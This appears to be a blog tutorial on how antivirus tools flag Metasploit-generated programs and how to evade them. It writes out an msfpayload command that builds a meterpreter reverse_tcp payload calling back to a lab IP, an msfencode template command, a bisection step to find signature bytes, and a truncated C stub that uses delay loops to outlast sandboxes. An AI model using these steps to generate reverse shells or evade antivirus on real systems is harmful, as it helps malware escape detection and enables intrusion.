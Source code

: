 To my surprise, Avast! will flag the binary files(Non-execute files) as malwares too. So it look like it use some 'signature' to judge whether a program is malicious or not. But, what's the signature?

To find out the 'bad string', I use the old bisection method to locate where the signature really is:

    ~/metasploit-framework/msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.56.102 R > payload_raw
    cat payload_raw | cut -c614-663 > malicious.txt

Ok, then I get the 'bad string' into `malicious.txt`. Scan it with Avast!, Avast! flag it as malware. You can download it [here](https://github.com/reverland/scripts/blob/master/else/malicious.txt) and test it with your own avast.

Now we are sure AV softwares use signature to find malwares. It is true, whenever a new suspicious files uploaded to AV vendors(for example, upload it to [Virustotal](https://www.virustotal.com/)), the new malware's signature will be soon added to the virus signature database soon.

But thats not all.

There are other thing AV vendors use to detect malware. For metasploit is too famous in penetration testers' group and other groups, AV softwares begin to detect whether the software is created with it. As a result, even if its not a malware, much AV will still flag your metasploit-created program as malware. You may check the [Metasploit: Low Level View](http://www.intelligentexploit.com/articles/Metasploit:-Low-Level-View.pdf) to learn more.

Seeing is believing. Let's use metasploit framework to generate a program with no payload[^1]:

    echo -ne | ~/metasploit-framework/msfencode -e generic/none -k -x calc.exe -t exe -o calc_no_payload.exe

However, Avast! mark it as a threat `Win32 Rozpatch`, most AVs will detect it as malwares or simply virus as well, you can upload it to [metascan](http://metascan-online.com/) to check it.

What does that mean? You should use another way to generate programs if you won't like your program to be detected.

In a word, Metasploit project are so well-known that nearly all it's encoders and ways to generate programs are well researched. The encoder stub are simply to detect, the strange entrypoint to a rwx section are simply to detect. Much AVs are just detect these things rather than the real 'bad signature'. Then we know we must use our own way to generate programs.

### Sandbox

However, sandbox becomes more and more popular. Whenever a suspicious program runs, it will be comfined to a virtual sandbox environment. If they do something that can be flagged as malicious, the program will soon be marked as malware. Some AV will scan suspicious programs in this way. However, sandbox will take up too much system resources, it will only run it in sandbox for only little time than release it.

So malware authors begin to sleep or do some useless loops to pass the sandbox time. However, some AVs begin to flag program has the strange sleep and loops as malwares as a countermeasure.

The next example is to demonstrate this:

```c
#include <stdio.h>
#include <stdlib.h>
/* test for malwares */
char code[] = 
"";
int add(int);
int main(int argc, char *argv[])
{
  int i,j;
  for(i=0;i<100;i++){
    for(j=0;j<100;j++)
      printf("wait...");
  }
```

[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s